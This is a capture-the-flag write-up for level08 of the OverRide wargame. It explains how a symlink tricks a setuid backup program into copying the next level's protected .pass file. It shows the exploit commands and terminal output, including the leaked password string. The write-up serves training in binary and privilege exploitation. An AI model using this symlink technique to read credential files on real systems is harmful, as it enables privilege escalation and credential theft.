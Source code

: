## Program analysis

The program is basically a backup generator : it takes a file as argument, creates a copy of the file in the `backups/` folder, copies the content of the original file in the newly created backup file, and writes some logs at start and end of backup processing.

## Exploit

We could give teh `/home/users/level09/.pass` as argument to the program. But the problem is that we cannot provide a file which is not in the current folder. Indeed, the intermediate folder can't be created in the `/backups/` folder. Hence the program exit with an error message : 

```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass

level08@OverRide:~$ ./level08 test_folder/test
ERROR: Failed to open ./backups/test_folder/test
```

So the trick is to create a symbolic link in the current folder, which points to our `/home/users/level09/.pass` file. There won't be any error related to accessing the file in /backups/, and the content of `/home/users/level09/.pass` will be written in the correponding `/backups/` file :

```
level08@OverRide:~$ ln -s /home/users/level09/.pass toto
level08@OverRide:~$ ls -la
total 32
drwxrwxrwx+ 1 level08 level08   160 Oct 19 14:31 .
dr-x--x--x  1 root    root      260 Oct  2  2016 ..
-r--------  1 level08 level08     0 Oct 19  2016 .bash_history
-rw-r--r--  1 level08 level08   220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root        7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level08 level08  3533 Sep 10  2016 .bashrc
-rw-r-xr--+ 1 level08 level08    41 Oct 19  2016 .pass
-rw-r--r--  1 level08 level08   675 Sep 10  2016 .profile
-r--------  1 level08 level08  2235 Oct 19  2016 .viminfo
drwxrwx---+ 1 level09 users     100 Oct 19 14:21 backups
-rwsr-s---+ 1 level09 users   12975 Oct 19  2016 level08
lrwxrwxrwx  1 level08 level08    25 Oct 19 14:31 toto -> /home/users/level09/.pass
level08@OverRide:~$ cat toto
cat: toto: Permission denied
level08@OverRide:~$ ./level08 toto
level08@OverRide:~$ cat backups/.log
LOG: Starting back up: toto
LOG: Finished back up toto
level08@OverRide:~$ cat backups/toto
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
level08@OverRide:~$
```
